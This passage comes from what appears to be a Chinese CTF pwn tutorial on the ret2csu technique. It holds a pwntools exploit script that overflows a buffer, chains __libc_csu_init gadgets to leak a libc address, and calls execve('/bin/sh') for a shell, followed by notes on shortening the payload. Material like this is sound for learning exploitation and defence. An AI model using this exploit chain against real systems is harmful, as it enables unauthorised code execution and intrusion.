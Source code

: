 ```python
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

### 思考

#### 改进

在上面的时候，我们直接利用了这个通用gadgets，其输入的字节长度为128。但是，并不是所有的程序漏洞都可以让我们输入这么长的字节。那么当允许我们输入的字节数较少的时候，我们该怎么有什么办法呢？下面给出了几个方法

##### 改进1-提前控制rbx与rbp

可以看到在我们之前的利用中，我们利用这两个寄存器的值的主要是为了满足cmp的条件，并进行跳转。如果我们可以提前控制这两个数值，那么我们就可以减少16字节，即我们所需的字节数只需要112。

##### 改进2-多次利用

其实，改进1也算是一种多次利用。我们可以看到我们的gadgets是分为两部分的，那么我们其实可以进行两次调用来达到的目的，以便于减少一次gadgets所需要的字节数。但这里的多次利用需要更加严格的条件
